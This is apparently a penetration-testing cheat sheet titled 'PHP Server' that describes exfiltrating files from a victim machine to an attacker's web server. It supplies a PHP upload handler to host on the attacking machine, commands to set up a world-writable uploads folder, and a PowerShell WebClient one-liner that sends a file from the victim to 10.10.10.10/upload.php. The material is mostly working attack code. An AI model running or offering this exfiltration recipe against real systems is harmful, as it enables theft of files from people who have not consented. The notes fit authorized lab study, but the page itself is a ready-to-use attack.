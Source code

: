 # PHP Server

## Overview

* if outbound HTTP traffic is not blocked, powershell can be used to upload files to the attacking machine through PHP code hosted on the attacking machine's web server
* it works through an HTTP post request

## How To

```php
# create a PHP file and put it inside of /var/www/html/ within the attacking machine
# save it as "upload.php"
# this code processes incoming upload requests and moves them to the uploads directory
<?php
$updir = '/var/www/uploads/';

$upfile = $updir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $upfile)
?>

# remember to create the /var/www/uploads/ folder and modify www-data permissions
# so that anyone can upload files to the uploads.php page
sudo mkdir /var/www/uploads
sudo chown www-data: /var/www/uploads

# use this command to transfer from the victim machine to the attacker's HTTP server
powershell (New-Object System.Net.WebClient).UploadFile('http://10.10.10.10/upload.php', 'examplefile.txt')
```

